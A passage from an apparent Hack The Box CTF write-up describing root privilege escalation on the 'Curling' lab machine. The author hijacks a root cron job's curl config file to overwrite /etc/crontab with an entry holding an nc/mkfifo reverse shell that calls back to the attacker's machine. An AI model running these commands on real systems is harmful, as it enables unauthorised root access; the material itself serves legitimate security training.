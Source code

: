 ```
2023/02/19 22:44:01 CMD: UID=0    PID=28489  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
```
It appeared that the command would open a shell script, run the curl command, using the input as a config file and the output to the report. Therefore, if I can change the config file I can have it call my machine and execute code. Using the write up from HTB, I created a local crontab and cron to call back to my machine. 
```
ajread@aj-ubuntu:~/hackthebox/$ cp /etc/crontab .
ajread@aj-ubuntu:~/hackthebox/$ echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LOCAL IP] 6666 >/tmp/f ' >> crontab
```
I started up an http server on my local machine. 
```
ajread@aj-ubuntu:~/hackthebox/$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
I changed the input file on floris' machine. 
```
floris@curling:~/admin-area$ cat input 
url = "http://[LOCAL IP]:8000/crontab"
output="/etc/crontab"
```
I saw the GET request from the remote machine.
```
ajread@aj-ubuntu:~/hackthebox/$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
[TARGET IP] - - [19/Feb/2023 17:57:03] "GET /crontab HTTP/1.1" 200 -
```
And shortly after, I was dropped into a shell as root. 
```
ajread@aj-ubuntu:~/hackthebox$ nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on [TARGET IP] 40360
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
I was able to read the root flag! 
```
# wc -c /root/root.txt
33 /root/root.txt
```